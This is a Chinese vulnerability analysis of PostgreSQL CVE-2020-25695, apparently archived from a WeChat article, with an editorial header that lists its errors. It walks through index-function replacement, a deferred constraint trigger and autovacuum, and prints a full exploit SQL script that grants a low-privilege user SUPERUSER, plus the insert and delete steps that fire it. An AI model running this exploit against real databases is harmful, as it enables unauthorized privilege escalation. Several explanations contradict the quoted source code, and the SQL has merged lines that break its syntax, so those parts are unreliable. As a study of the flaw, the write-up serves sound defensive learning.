





# PostgreSQL-CVE-2020-25695 提权漏洞分析

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：数据库用户可创建表、函数和索引；特权维护或 autovacuum/ANALYZE 触发，实验版本13.0/12.4/12.3/11.9
- 证据范围：索引函数替换与延迟约束触发器为核心；正文多处把调用者、所有者以及权限恢复前后说反，应以贴出的源码和 deferred 注释校正

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 简介称 SECURITY INVOKER 以创建者高权限运行，与属性定义及后文不一致
- 文称触发器在权限恢复之前执行，而英文代码注释明确 commit 时已经恢复调用者
- 称只有 postgres 可 ANALYZE 过度绝对，示例低权限用户本身也执行该命令
- 大段 SQL 行合并，--注释吞掉后续代码，integerLANGUAGE、defAFTER 等相连导致语法损坏
- test 用户/数据库与三段限定名需说明实验前提；已列版本不能当完整影响范围

### 操作风险与资料使用

- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

 珠天PearlSky   2024-12-29 16:04  
  
## 适用版本  
- 13.0 – PostgreSQL 13.0 (Debian 13.0-1.pgdg100+1)  
  
- 12.4 – PostgreSQL 12.4 (Debian 12.4-1.pgdg100+1)  
  
- 12.3 – PostgreSQL 12.3 (Debian 12.3-1.pgdg100+1)  
  
- 11.9 – PostgreSQL 11.9 (Debian 11.9-1.pgdg90+1)  
  
## 漏洞简介  
  
这个安全漏洞主要利用了 PostgreSQL 中的两个特定函数特性：  
  
1. SECURITY DEFINER：带有此属性的函数将以函数创建者的权限来执行，忽略调用者的实际权限。  
  
1. SECURITY INVOKER：与 SECURITY DEFINER 相反，带有此属性的函数将以调用它的用户的权限执行。  
  
在本例中，攻击者利用的是 SECURITY INVOKER 特性。他们发现函数可以通过索引触发执行。因此，攻击者创建了一个带有 SECURITY INVOKER 属性的函数，并将其设置为一个索引表达式。当具有系统权限的用户执行   ANALYZE   命令时，该函数会自动以创建者的高权限运行。攻击者进一步通过精心构造特定的表结构，使得在普通用户权限下，能够触发自动的   ANALYZE，从而实现权限提升，获取更高级别的数据库访问权限。  
## 分析  
### 索引  
  
postgresql可以以如下的方式将函数设置为索引：  
```
CREATE INDEX index ON table (function(a));
```  
  
其中index为索引名，这里的function可以替换为我们自己定义的函数。  
  
我们定义的函数如下  
```
-- create the table to insert the user intoCREATE TABLE t0 (s varchar);-- create the security invoker functionCREATE FUNCTION sfunc2(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS   'INSERT INTO t0 VALUES (current_user); SELECT $1';
```  
  
然后在我们定义索引的时候发现报错。  
```
CREATE INDEX indy ON blah (sfunc2(a));#报错:SQL 错误 [42P17]: ERROR: functions in index expression must be marked IMMUTABLE
```  
  
这个意思是我们的函数必须是被标记为IMMUTABLE 的。如下:  
```
CREATE FUNCTION sfunc(integer)   RETURNS integer  LANGUAGE sql IMMUTABLE AS  'SELECT $1';
```  
  
但是如果这样声明函数，明显没有任何意义，因为我们是想要通过一些特殊的操作，让这些函数以高权限运行，所以我们进行如下的修改:  
```
CREATE FUNCTION sfunc(integer)   RETURNS integer  LANGUAGE sql IMMUTABLE AS  'SELECT $1';CREATE INDEX indy ON blah (sfunc(a));CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO t0 VALUES (current_user); SELECT $1';
```  
  
首先，我们创建了一个被标记为   IMMUTABLE   的函数，并将其用于索引表达式。接着，我们利用   CREATE OR REPLACE   语句对函数进行了修改和覆盖。关键在于，索引不会检查被覆盖后的函数是否仍然满足其索引所需的标准，这给了我们操作的空间。我们重新标记函数为   SECURITY INVOKER  ，使得函数将以调用者的权限执行。然而，在执行过程中，当我们切换到   postgres   用户并执行相关语句时，我们发现写入的用户名并不是   postgres  ，而是创建函数的用户的用户名。这与我们的预期不符，因为我们希望函数能够写入执行用户的用户名。为了解决这个疑惑，作者深入研究了 PostgreSQL 的实现源码。  
```
/*  * Switch to the table owner's userid, so that any index functions are run  * as that user.  Also lock down security-restricted operations and  * arrange to make GUC variable changes local to this command. (This is  * unnecessary, but harmless, for lazy VACUUM.)  */GetUserIdAndSecContext(&save_userid, &save_sec_context);SetUserIdAndSecContext(onerel->rd_rel->relowner,                                            save_sec_context | SECURITY_RESTRICTED_OPERATION);save_nestlevel = NewGUCNestLevel();// DO LOTS OF WORK// <--- SNIP --->/* Restore userid and security context */SetUserIdAndSecContext(save_userid, save_sec_context);/* all done with this class, but hold lock until commit */if (onerel)        relation_close(onerel, NoLock);/*  * Complete the transaction and free all temporary memory used.  */PopActiveSnapshot();CommitTransactionCommand();
```  
  
通过深入研究源码，我们不难发现，在执行   CommitTransactionCommand   之前，系统已经通过   SetUserIdAndSecContext   将执行用户的权限还原。这就是为什么最终写入的用户名是   foo   而不是   postgres  ，因为我们期望的是写入执行命令的用户（  postgres  ）的用户名，但实际上写入的是创建函数的用户的用户名。为了解决这个问题，作者采用了约束触发器的策略。那么，什么是约束触发器呢？  
### 触发器  
  
下面是菜鸟教程的一个定义:  
  
  
简单来说，触发器会在某些操作(增删改查)被执行的时候，去进行一些操作。 作者就是通过触发器，在还原用户权限之前去执行一些其他的操作，我们来看作者给的代码。  
```
CREATE TABLE t1 (s varchar);-- create a functionfor inserting current user into another tableCREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO t1 VALUES (current_user); SELECT $1';-- create a trigger functionwhich will call the second functionfor inserting current user into table t1CREATE OR REPLACE FUNCTION strig() RETURNS trigger   AS $e$ BEGIN     PERFORM snfunc(1000); RETURN NEW;   END $e$ LANGUAGE plpgsql;/* create a CONSTRAINT TRIGGER, which is deferred deferred causes it to trigger on commit, by which time the user has been switched back to the invoking user, rather than the owner*/CREATE CONSTRAINT TRIGGER def    AFTER INSERT ON t0    INITIALLY DEFERRED     FOR EACH ROW  EXECUTE PROCEDURE strig();
```  
  
我们先来看下面这段代码  
```
CREATE OR REPLACE FUNCTION strig() RETURNS trigger   AS $e$ BEGIN     PERFORM snfunc(1000); RETURN NEW;   END $e$ LANGUAGE plpgsql;
```  
  
这个函数   strig   是一个触发器函数，它没有参数，返回类型是   trigger  。它执行以下操作：  
1. 调用   snfunc   函数，传入固定值   1000  。  
  
1. 返回   NEW  ，这在插入触发器中通常用于返回新插入的行。  
  
然后是创建了一个触发器:  
```
CREATE CONSTRAINT TRIGGER def    AFTER INSERT ON t0    INITIALLY DEFERRED     FOR EACH ROW  EXECUTE PROCEDURE strig();
```  
  
这个触发器的意思当t0有insert的操作的时候就会进行执行，string()函数而string()函数又是立即执行snfunc函数，其主要执行过程如下图  
  
  
所以这时候触发器执行的时候是以执行用户的权限。  
## 自动化  
  
在我们解决了大部分问题之后，最后是如何让数据库自动执行   ANALYZE  ，因为只有   postgres   用户才有权限执行此操作。这时，我们引入了   autovacuum  ，它能够自动执行   ANALYZE   以及   VACUUM   操作。关于   autovacuum   的具体细节，可以通过百度获取更多信息。  
## exp  
  
这里用到了一个网友的exp:  
```
CREATE TABLE t0 (s varchar); CREATE TABLE t1 (s varchar);CREATE TABLE exp (a int, b int);CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integerLANGUAGE sql IMMUTABLE AS'SELECT $1';CREATE INDEX indy ON exp (sfunc(a));CREATE OR REPLACE FUNCTION sfunc(integer) RETURNS integerLANGUAGE sql SECURITY INVOKER AS'INSERT INTO test.public.t0 VALUES (current_user); SELECT $1';CREATE OR REPLACE FUNCTION snfunc(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO test.public.t1 VALUES (current_user);SELECT $1';CREATE OR REPLACE FUNCTION snfunc2(integer) RETURNS integer   LANGUAGE sql    SECURITY INVOKER AS'INSERT INTO test.public.t1 VALUES (current_user); ALTER USER test SUPERUSER; SELECT $1';CREATE OR REPLACE FUNCTION strig() RETURNS trigger AS $e$ BEGIN IF current_user = 'postgres' THEN    PERFORM test.public.snfunc2(1000); RETURN NEW; ELSE    PERFORM test.public.snfunc(1000); RETURN NEW; END IF;END $e$ LANGUAGE plpgsql;CREATE CONSTRAINT TRIGGER defAFTER INSERT ON t0INITIALLY DEFERRED FOR EACH ROWEXECUTE PROCEDURE strig();ALTER TABLE exp SET (autovacuum_vacuum_threshold= 1);ALTER TABLE exp SET (autovacuum_analyze_threshold= 1);ANALYZE exp;
```  
  
触发autovacuum  
```
INSERT INTO exp VALUES (1,1), (2,3),(4,5),(6,7),(8,9); DELETE FROM exp; INSERT INTO exp VALUES (1,1);
```  
  
  
  
  
  
  
## 最后  
  
因为我看网上没有什么对这个漏洞的详细复现文章，只有先知有一篇机翻的，所以我通过阅读原文，跟着一步步复现和学习后，彻底了解漏洞和复现成功后所以写下了这篇，若文章上面有什么错误的地方，希望大佬们进行指正。  
## 参考文献  
- https://xz.aliyun.com/t/8682?time__1311=n4%2BxnD0DcDu7G%3DGC%2BGkDlhje3TOArDB0e4OAoD#toc-7  
  
- https://staaldraad.github.io/post/2020-12-15-cve-2020-25695-postgresql-privesc/  
  
- https://blog.ch30gsec.top/archives/cve-2020-25695postgresql%E4%B8%AD%E7%9A%84%E6%9D%83%E9%99%90%E6%8F%90%E5%8D%87  
  
  
  
  


---

> 来源：gelusus/wxvl（微信公众号漏洞文章自动归档，原文见文首链接）
